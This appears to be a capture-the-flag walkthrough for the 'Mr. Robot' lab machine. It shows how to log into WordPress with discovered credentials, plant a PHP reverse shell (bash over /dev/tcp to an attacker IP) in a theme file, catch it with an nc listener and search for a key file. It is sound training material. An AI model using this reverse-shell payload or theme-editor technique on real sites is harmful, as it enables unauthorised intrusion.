 💥 Exploitation – Mr. Robot

In this phase, we use the discovered WordPress credentials to gain shell access on the target system.

---

## 🔐 1. Log into WordPress

Visit:
```

[http://192.168.1.105/wp-login.php](http://192.168.1.105/wp-login.php)

```

Use the credentials:
- **Username**: `elliot`
- **Password**: `ER28-0652`

✅ You should be redirected to the WordPress dashboard.

---

## 🔎 2. Upload a Reverse Shell via Appearance Editor

Navigate to:
```

Appearance → Theme Editor

````

Select:
- `404.php` or `index.php` (a page that's guaranteed to be loaded)

Replace the entire code with a PHP reverse shell. Example:

```php
<?php
// reverse shell payload
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'");
?>
````

> Replace `192.168.1.100` with your attack machine IP.

---

## 🧲 3. Set Up Listener

On your local machine:

```bash
nc -lvnp 4444
```

---

## 🎯 4. Trigger the Shell

Visit:

```
http://192.168.1.105/wp-content/themes/twentytwelve/404.php
```

✅ A reverse shell should connect to your terminal as the `www-data` user.

---

## 🧠 Post-Exploitation Enumeration

Once you have the shell:

```bash
whoami
# www-data

hostname
uname -a
```

---

## 🔎 Search for Key 2

Use `find`:

```bash
find / -name "key-2-of-3.txt" 2>/dev/null
```

Typically located in `/home/robot`.

To read it, you may need to switch users (see next steps).

---

📂 Proceed to [`privilege-escalation.md`](./privilege-escalation.md) to escalate from `www-data` to `robot`, and eventually `root`.
